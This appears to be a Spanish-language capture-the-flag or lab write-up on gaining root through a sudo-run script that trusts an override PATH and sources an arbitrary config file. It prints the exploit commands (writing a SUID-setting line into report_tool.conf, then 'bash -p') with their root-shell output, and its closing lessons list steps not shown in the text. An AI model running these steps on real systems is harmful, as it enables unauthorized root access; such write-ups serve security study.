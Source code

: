 El script **es vulnerable** a un ataque de **PATH hijacking** (secuestro de rutas de ejecución).:
**Vulnerabilidad clave**
```bash
export PATH="$OVERRIDE_PATH:$PATH"
```
1. **Confía en `OVERRIDE_PATH`**: Esta variable controla el primer lugar donde se buscan binarios.
2. **Carga configuración arbitraria**: El archivo `./report_tool.conf` se ejecuta con `source`.
3. **Ejecuta `date` sin ruta absoluta**: Usa el primer `date` encontrado en el PATH modificado.

#### Explotacion:
###### 1. Crear una configuracion maliciosa:
```bash
echo '/bin/bash -c "chmod u+s /bin/bash"' > ./report_tool.conf
```
###### 2. Crear una instruccion maliciosa `chmod u+s /bin/bash` en `report_tool`:
```bash
sudo -u root /usr/local/bin/report_tool 
Mon Jun 23 19:43:55 CEST 2025
```
###### 3. revisamos permsios de la bash
```bash
ls -l /bin/bash
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

Ahora nos aprovechamos de esto para migrar como usuario root
```bash
# Comando para escalar al usuario: ( root )
bash -p
```

---

## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
bash-5.2# whoami
root
```

---

## Lecciones Aprendidas
1. Abusamos de la funcion que nos permitia cambiar la contrasena de usuario para cambiarle su contrasena al **manager**
2. Subimos archivos malicisos al servidor
3. Aprendimos a pivotear entre usuarios